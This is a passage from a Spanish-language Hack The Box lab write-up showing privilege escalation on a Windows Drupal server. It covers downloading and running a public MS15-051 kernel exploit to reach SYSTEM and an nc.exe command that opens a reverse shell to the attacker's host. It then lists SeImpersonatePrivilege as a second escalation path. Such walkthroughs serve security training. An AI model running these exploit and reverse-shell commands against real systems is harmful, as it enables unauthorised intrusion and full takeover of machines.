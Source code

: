 ```txt
Vulnerabilities in Windows Kernel Could Allow Elevation of Privilege
```

De primeras encontramos dos cosas, una referencia al reporte `MS10-015` (pero abajo hay por ejemplo una hacia `MS10-021`, por lo que podemos pensar que es un grupo de vulns) y su definición, así que volvemos a buscar binarios que se relacionen...

Peeero nada. Probando, probando y probando cosas llegamos a este repo (que no sé cómo llegue, despues de varios links este fue el que me funciono 😄):

* [SecWiki/windows-kernel-exploits/MS15-051](https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS15-051).

Nos descargamos el comprimido `MS15-051-KB3045171.zip`, lo descomprimimos, lo subimos a la máquina y probamos:

```powershell
C:\inetpub\drupal-7.54>.\ms15-051.exe
.\ms15-051.exe
[#] ms15-051 fixed by zcgonvh
[#] usage: ms15-051 command 
[#] eg: ms15-051 "whoami /all"
```

Bien es funcional e interactivo, pues ejecutemos un `whoami`:

```powershell
C:\inetpub\drupal-7.54>.\ms15-051.exe "whoami"
.\ms15-051.exe "whoami"
[#] ms15-051 fixed by zcgonvh
[!] process with pid: 1808 created.
==============================
nt authority\system
```

😲 apaaaa, somos `nt authority\system` :o poooooooo generémonos una **Reverse Shell** de unaaaaaaaaa:

```powershell
C:\inetpub\drupal-7.54>.\ms15-051.exe "c:\inetpub\drupal-7.54\nc.exe 10.10.14.8 4434 -e cmd.exe"
```

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/bastard/7bash_MS15_051_NTsystemSH_DONE.png" style="display: block; margin-left: auto; margin-right: auto; width: 100%;"/>

Perrrrrfectisiiiimo, conseguimos una Shell explotando el **kernel** de `Windows`, que lindura.

Antes de irnos veamos la otra manera de escalar...

...

## Explotamos el privilegio <u>SeImpersonatePrivilege</u> [📌](#seimpersonate-juicy) {#seimpersonate-juicy}

Si revisamos nuestros privilegios vemos 3:

```powershell
C:\inetpub\drupal-7.54>whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name          Description                               State  
======================= ========================================= =======
SeChangeNotifyPrivilege Bypass traverse checking                  Enabled
SeImpersonatePrivilege  Impersonate a client after authentication Enabled
SeCreateGlobalPrivilege Create global objects                     Enabled
```
